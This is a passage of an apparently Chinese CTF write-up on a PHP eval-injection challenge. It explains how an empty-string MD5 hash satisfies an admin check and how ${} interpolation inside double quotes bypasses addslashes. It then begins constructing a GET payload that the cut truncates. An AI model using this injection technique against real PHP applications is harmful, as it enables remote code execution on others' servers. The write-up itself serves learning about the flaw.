 ```

eval('$flag="' .$admin . '";');

}

}

?> 
```

这里$_SESSION[username]是null，所以我们只要使用一个空的md5串就行：`whoami[admin]=d41d8cd98f00b204e9800998ecf8427e`

下面`$_GET[code]`经过了`addslashes`函数，无法闭合下面`eval('"' .$admin .('"./hh.php"') .')}}";');`的双引号，我们打印一下如图：

![image.png](img/e78bedcddfb1763cbaaa654bd8c98225.png)

这里肯定回抛出一个语法错误的，因为语法格式是错误的。

但是在双引号包裹${}进行执行还有一个姿势，如图：

![image.png](img/e038f7c2069e35a50f657a4b8d9e9577.png)

这种写法就允许了两对双引号在未经反斜杠转义下的解析。

那么构造Payload：?`whoami[admin]=d41d8cd98f00b204e9800998ecf8427e&code=1${${print(`
